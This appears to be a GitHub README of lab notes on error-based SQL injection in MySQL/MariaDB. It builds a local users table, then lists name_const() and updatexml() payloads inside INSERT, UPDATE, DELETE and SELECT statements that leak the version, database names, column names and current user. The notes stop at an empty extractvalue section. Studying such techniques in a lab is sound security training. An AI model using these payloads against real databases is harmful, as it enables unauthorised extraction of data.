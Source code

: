 # SQLi-select-insert-update-delete
- Create a db for the lab:
```
Create database newdb;
use newdb
CREATE TABLE users
(
id int(3) NOT NULL AUTO_INCREMENT,
username varchar(20) NOT NULL,
password varchar(20) NOT NULL,
PRIMARY KEY (id)
);
```
- Now let’s insert some sample data into our database. The syntax would be

```
insert into users (id, username, password) values (1, ‘Jane’, ‘Eyre’);
```
- Using name_const()
  
Syntax:
```
insert into users (id, username, password) values (1,"*(select*from(select(name_const(version(),1)),name_const(version(),1))a)* ", 'Eyre');
```
- Using updatexml()
  
  * The updatexml() function is an SQL function in MariaDB and MySQL commonly used to perform operations on XML data. However, when used with non-standard parameters or non-XML data, it can cause errors and this error message can sometimes display sensor information such as database version instead of . This is often leveraged in SQL injection attacks to get information from the database.
  
 - Syntax
 
  updatexml(XML_document, XPath_string, new_value)

- Syntax

  *   Select
    
    ```
    SELECT updatexml(1, concat(0x7e, database()), 0); //Dump current db name
    ```
    
    ```
    SELECT updatexml(1, concat(0x7e, (SELECT group_concat(schema_name) FROM information_schema.schemata)), 0);//Dump list of db
    ```
  * Insert:

  ```
    INSERT INTO users (id, username, password) VALUES (3, updatexml(1, concat(0x7e, (version())), 0), 'Eyre');
  ```
  *  Delete:
  ```
    DELETE FROM users WHERE id = 1 OR updatexml(1, concat(0x7e, version()), 0);
  ```
  * Update:
  ```
    UPDATE users SET password = 'dummy'
    WHERE id = 2 AND username = 'Nervo' OR updatexml(1, concat(0x7e, version()), 0);  //Statement AND is wrong and updatexml(1, concat(0x7e, version()), 0) is alway dump error -->it True
  ```
  ```
    SET password = (SELECT updatexml(1, concat(0x7e, version()), 0))
        WHERE id = 2 AND username = 'Nervo';
  ```
  ```
    UPDATE users
    SET password = 'dummy'
    WHERE (id = 2 AND username = 'Nervo') OR updatexml(1, concat(0x7e, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' AND table_schema     = database())), 0); //Dump list of comlumns
  ```
  ```
    UPDATE users
    SET password = 'dummy'
    WHERE (id = 2 AND username = 'Nervo') OR updatexml(1, concat(0x7e, (SELECT user())), 0); // Dump curent user
  ```
- Using extractvalue()


    
    

